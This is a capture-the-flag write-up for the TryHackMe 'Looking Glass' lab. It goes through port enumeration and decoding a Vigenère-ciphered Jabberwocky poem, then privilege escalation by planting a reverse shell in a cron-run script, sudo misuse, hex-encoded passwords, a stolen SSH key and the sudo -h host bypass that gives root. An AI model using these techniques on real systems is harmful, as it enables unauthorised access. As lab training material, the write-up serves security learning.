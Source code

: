 # 48 - Looking Glass (sudoer's file rules for users)

Room Link --> [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.153.216 -sV -p- -T5

# output
from port 22, 9000 - 13783 were open, all SSH services.
```
{% endcode %}

Connecting to any of the ports gives either a lower or higher message output.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# port 13783
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 13783
Higher
Connection to 10.10.201.49 closed.


# port 9000
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 9000 
Warning: Permanently added '[10.10.201.49]:9000' (RSA) to the list of known hosts.
Lower
Connection to 10.10.201.49 closed.
```
{% endcode %}

We need to find the right port. I just kept narrowing it down till i  found the right port. Scripting this could take longer since we'd hae to iterate through all the numbers in an arithmetic progression.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 12091
Warning: Permanently added '[10.10.201.49]:12091' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:	

```
{% endcode %}

Username: `Jabberwocky` .

Trying to decode the cipher text:

Using this [vigenere](https://www.boxentriq.com/code-breaking/vigenere-cipher) decoder site. I tried automatic decode, and found the right key.

<figure><img src=".gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Then i used the generated key: `thealphabetcipher`&#x20;

```
'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.

'Beware the Jabberwock, my son!
The jaws that bite, the claws that catch!
Beware the Jubjub bird, and shun
The frumious Bandersnatch!'

He took his vorpal sword in hand:
Long time the manxome foe he sought--
So rested he by the Tumtum tree,
And stood awhile in thought.

And as in uffish thought he stood,
The Jabberwock, with eyes of flame,
Came whiffling through the tulgey wood,
And burbled as it came!

One, two! One, two! And through and through
The vorpal blade went snicker-snack!
He left it dead, and with its head
He went galumphing back.

'And hast thou slain the Jabberwock?
Come to my arms, my beamish boy!
O frabjous day! Callooh! Callay!'
He chortled in his joy.

'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.
Your secret is bewareTheJabberwock
```

We get the secret: `bewareTheJabberwock`&#x20;

When we input the secret, the connection closed.

<figure><img src=".gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

### Initial Access

But when we tried the credential given via the default ssh port 22, we logged in successfully.

`jabberwock : InstantlyWillingDivideFetch`&#x20;

<figure><img src=".gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledum

There is a `twasBrillig.sh` file in jabberwock home dir, which uses the `bash wall` cmd to send a broadcast message, calling on a `poem.txt` file in the same dir.&#x20;

<figure><img src=".gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

Meaning the `.sh` script is printing the poem as a broadcast message. When i checked cronjob there is a job run by `tweedledum` user at reboot executing that `.sh` file.

<figure><img src=".gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

To exploit this, we just edit the `.sh` file with a reverse shell, then on reboot we get a shell as the `tweedledum` user (setup nc listener to catch the shell).

And we got a shell as `tweedledum` user.

<figure><img src=".gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledee

`sudo -l` . we can execute bash as tweedledee

<figure><img src=".gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

`sudo -u tweedledee /bin/bash` - and we are Tweedledee.

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to HumptyDumpty

There is a `humptydumpty.txt` file in Tweedledee home dir.

```
tweedledee@looking-glass:/home/tweedledee$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

I just paste them into cyberchef and convert from Hex.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`humptydumpty : zyxwvutsrqponmlk` .

`su humptydumpty` - and we are humptydumpty.

### Priv Esc to Alice

Although we don't have access to list anything in alice home dir, but we can see that Alice's `.ssh` folder is available, and we can also access the Private keys.

<figure><img src=".gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

Use the priv key to gain login ssh acct for Alice.

<figure><img src=".gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tryhackme

Running LinPEAS.sh we found an interesting sudoers file rule for alice.

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

The following is the syntax used by the Sudoers files, which means alice can run /bin/bash as root, but only on the “ssalg-gnikool” host.

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/07/image-365.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

The -h flag can be used to specify the host when executing commands with Sudo:

`sudo -h ssalg-gnikool -u root /bin/bash` - and we are root.

```bash
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool -u root /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# cd /root/
root@looking-glass:/root# ls 
passwords  passwords.sh  root.txt  the_end.txt
```

Done!

